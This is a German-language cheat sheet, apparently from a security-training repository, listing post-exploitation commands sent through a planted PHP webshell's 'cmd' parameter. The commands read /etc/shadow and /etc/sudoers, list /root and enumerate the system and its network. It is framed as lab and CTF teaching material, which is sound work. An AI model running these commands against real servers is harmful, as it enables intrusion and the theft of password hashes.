 # 🐚 PHP Webshell – Usage & Enumeration Guide

## 📘 Kontext

Diese Datei dokumentiert typische **Post-Exploitation-Kommandos**, die nach erfolgreicher Platzierung einer PHP-Webshell (`cmdshell.php3`) ([mehr zu cmdshell.php3](/vulnerabilities/sqlInjection/cmdshellAndHowToUse/phpRCE_CheatSheet.md)) auf einem Zielsystem ausgeführt werden können.  
Der Zugriff erfolgt über einen GET-Parameter `cmd`, der Systembefehle auf dem Server ausführt.

> ⚠️ Hinweis: Diese Vorgehensweise dient ausschließlich Schulungs- und Testzwecken innerhalb legaler Testumgebungen oder CTF-Szenarien.

---

## 🔗 Beispielhafte Webshell-Aufrufe

Die folgenden URLs zeigen den Zugriff auf die Webshell:

```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=[COMMAND]
```

**Beispielhafte Kommandos:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/passwd
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/shadow
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group | grep admin
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/sudoers
```
**Dateisystem & Benutzerverzeichnisse durchsuchen:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /var/www
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /home
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /root
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=id
```

---

## 🧾 Systeminformationen ermitteln

```bash
uname -a        # vollständige Systeminformationen
uname -s        # Kernel-Name
uname -n        # Netzwerkname des Hosts
uname -r        # Kernel-Version
uname -v        # Kernel-Build
uname -m        # Architektur (z. B. x86_64)
uname -p        # Prozessor
uname -i        # Hardware-Plattform

pwd             # aktuelles Verzeichnis
whoami          # aktueller Benutzer
```

---

## 🌐 Netzwerküberblick

### Netstat-Befehle zur Analyse aktiver Verbindungen:

```bash
netstat         # allgemeine Übersicht
netstat -a      # alle Verbindungen und Ports
netstat -at     # nur TCP
netstat -au     # nur UDP
netstat -l      # nur "listening" Ports
netstat -lp     # mit Prozessinfos (sofern verfügbar)
```

---

## 🧪 Typische Ziele nach Webshell-Zugriff

| Ziel            | Zielsetzung                     |
| --------------- | ------------------------------- |
| `/etc/passwd`   | Benutzerkonten einsehen         |
| `/etc/shadow`   | Passwort-Hashes (nur als root)  |
| `/etc/group`    | Gruppenzugehörigkeiten          |
| `/etc/sudoers`  | Sudo-Rechte prüfen              |
| `/var/www/`     | Web-Inhalte durchsuchen         |
| `/home/`        | Benutzerverzeichnisse einsehen  |
| `/root/`        | Admin-Account analysieren       |
| `id`, `whoami`  | User-Kontext prüfen             |
| `netstat`, `ss` | Netzwerkservices identifizieren |
| `uname -a`      | Systemplattform identifizieren  |

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

## 🔗 Siehe auch
- [php_rce_cheat_sheet.md](/03-web-security/phpWebShell/php_rce_cheat_sheet.md)
- [sql_injection_to_shell.md](/03-web-security/sql-injection/sql_injection_to_shell.md)
- [post_exploitation_tools.md](/04-os-enumeration/post_exploitation_tools.md)
